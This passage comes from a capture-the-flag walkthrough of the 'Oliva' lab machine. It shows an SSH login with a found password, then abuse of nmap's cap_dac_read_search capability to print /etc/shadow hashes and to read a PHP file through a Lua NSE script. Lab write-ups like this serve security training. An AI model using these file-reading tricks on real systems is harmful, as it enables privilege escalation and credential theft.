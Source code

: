 We can see an interesting file named mypass.txt in the folder we mounted the disk on. Let's read this folder.
```bash
┌──(pentester㉿kali)-[~/Oliva/Misc Files]
└─$cat mount-oliva/mypass.txt 
<REDACTED>
```

The folder contains a string that resembles a password. Let's use this password to log in through SSH. Remember that in the message we saw on the index.php page, the name oliva was mentioned so, let's use this as our username.
```bash
┌──(pentester㉿kali)-[~/Oliva]
└─$ssh oliva@10.0.2.18
oliva@10.0.2.18's password: 
Linux oliva 6.1.0-9-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.27-1 (2023-05-08) x86_64

<SNIP>
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul  4 10:27:00 2023 from 192.168.0.100
oliva@oliva:~$ ls
user.txt
```
## Post Exploitation

We successfully log in and we gain access to the user flag. Now we can use this access to enumerate the system internally to escalate our privileges. One easy method to escalate privileges is to enumerate files with special capabilities. We can enumerate these files as shown below.
```bash
oliva@oliva:/tmp$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin 2>/dev/null -exec /sbin/getcap {} \; 
/usr/bin/nmap cap_dac_read_search=eip
/usr/bin/ping cap_net_raw=ep
```

We see that Nmap has the  **cap_dac_read_search** capability, cap_dac_read_search enables a process to bypass permissions for reading files and for reading and executing directories. Its primary use is for file searching or reading purposes. In this case, we can use Nmap to read sensitive files as root such as the /etc/shadow file containing hashes of all users on the system including root.
```bash
oliva@oliva:/tmp$ /usr/bin/nmap  -iL /etc/shadow
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-16 19:03 CEST
Failed to resolve "root:$y$j9T$mJZXSkk0PjMpjwgunTu3a.$xlW8pdbOdxHdqCatq072mj3qQ69To4Gy6WbRwSbY6S3:19542:0:99999:7:::".
<SNIP>
Unable to split netmask from target expression: "oliva:$y$j9T$pud/moDgqqEeyht8CXkZE/$6EY/SqVpTsaEnPKnCxbsdCi8ImRvV86ip0LWF.8.vhD:19542:0:99999:7:::"
Failed to resolve "mysql:!:19542::::::".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.06 seconds
```
Attempting to crack this password takes a very long amount of time so we can try to enumerate the system further. Remember we had a page named index.php. PHP files usually contain sensitive information like database passwords and API keys. Let's attempt to read this file with our privilege.
```bash
oliva@oliva:~$ TF=$(mktemp)
oliva@oliva:~$ echo 'local f=io.open("/var/www/html/index.php", "rb"); print(f:read("*a")); io.close(f);' > $TF
oliva@oliva:~$ nmap --script=$TF
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-16 19:43 CEST
NSE: Warning: Loading '/tmp/tmp.m5EY3tpiN4' -- the recommended file extension is '.nse'.
Hi oliva,
Here the pass to obtain root:

<?php
```